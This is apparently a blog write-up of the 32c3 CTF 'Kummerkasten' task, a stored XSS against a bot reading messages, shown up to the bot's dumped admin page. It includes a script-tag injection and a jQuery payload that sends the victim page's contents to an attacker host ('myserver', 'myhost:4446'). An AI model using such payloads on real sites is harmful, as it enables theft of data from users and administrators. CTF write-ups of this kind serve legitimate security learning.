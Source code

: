```yaml
---
layout: post
title: 32c3 CTF Kummerkasten write-up
tags: CTF, 32c3 CTF
---
```


Strangely, this 32c3 CTF task weighted 300 points (while *ITD* was "only" 150) however it was a <del>simple</del> straightforward XSS. You're given a page like this: ![](http://i.imgur.com/7vUobWP.png) 

*Your team* is nearly arbitrary (just a basic filter) and the injectable field is the message itself. It is possible to inject `<script src="yourstuff.js"></script>` right away. Clearly, there's a bot reading all the messages so the first thing right off the bat I did was to hook in [BeEF](http://beefproject.com/). The bot appeared in the logs shortly and then disconnected. I wasn't really disappointed as the original page already contained jQuery code so coding payloads would be a cakewalk.  

First I dumped the current page the bot was seeing:

~~~javascript
$.post('http://myserver', {'a': btoa($('body')[0].innerHTML)})
~~~

The bot returned this: 

~~~html
<script src="js/jquery-2.1.4.min.js"></script>
<script src="js/bootstrap.min.js"></script>
<script src="js/admin.js"></script>

    <nav class="navbar navbar-inverse">
      <div class="container">
        <div class="navbar-header">
          <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
            <span class="sr-only">Toggle navigation</span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
            <span class="icon-bar"></span>
          </button>
          <a class="navbar-brand" href="/admin/comments">Admin</a>
        </div>
        <div id="navbar" class="collapse navbar-collapse">
          <ul class="nav navbar-nav">
            <li class="active comments comment"><a href="/admin/comments">Comments</a></li>
            <li class="bugs"><a href="/admin/bugs">Bugs</a></li>
          </ul>
          <img src="img/spinner.svg" class="spinner pull-right" style="height: 50px; display: none;">
	<ul class="nav navbar-nav navbar-right">
	  <li class="token"><a href="/admin/token">HACK - Token</a></li>
	</ul>
        </div>
      </div>
    </nav>

    <div class="container" id="content">


      <div>
        <h1>Good news!</h1>
        <div class="comment">
            <blockquote>
                <p>lol<script>$.post('http://myhost:4446', {'a': btoa($('body')[0].innerHTML)})</script></p></blockquote></div></div></div>
~~~